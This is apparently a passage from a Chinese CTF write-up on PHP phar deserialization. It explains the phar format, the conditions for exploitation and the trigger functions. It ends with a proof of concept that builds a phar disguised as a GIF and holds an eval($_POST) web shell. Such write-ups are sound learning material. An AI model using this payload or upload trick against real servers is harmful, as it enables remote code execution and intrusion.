 >
>    签名，放在末尾。
>
> 
>
> 二、phar文件生成：
>
> ```php
> 
> <?php
>     class TestObject {
>     }
> 
>     @unlink("phar.phar");
>     $phar = new Phar("phar.phar"); //后缀名必须为phar
>     $phar->startBuffering();
>     $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
>     $o = new TestObject();
>     $phar->setMetadata($o); //将自定义的meta-data存入manifest
>     $phar->addFromString("test.txt", "test"); //添加要压缩的文件
>     //签名自动计算
>     $phar->stopBuffering();
> ?>
> ```
>
> 三、phar文件包含利用条件
>
> 1. phar 文件要能够上传到服务器端
> 2. 要有可用的魔术方法作为跳板
> 3. 文件操作函数的参数可控，且 “:”、“/”、“phar” 等特殊字符没有被过滤
>
> ```
> 知道创宇404实验室的研究员 seaii 更为我们指出了所有文件函数均可使用（https://paper.seebug.org/680/ ）：
> 
> fileatime / filectime / filemtime
> stat / fileinode / fileowner / filegroup / fileperms
> file / file_get_contents / readfile / fopen`
> file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is_writable
> parse_ini_file
> unlink
> copy
> ```



本题是把file和context分开上传，那么先生成phar文件：

本题poc：

```php
<?php
$phar = new Phar("a.phar");
$phar->startBuffering();
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER(); ?>');
$phar->addFromString("a.txt", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
```
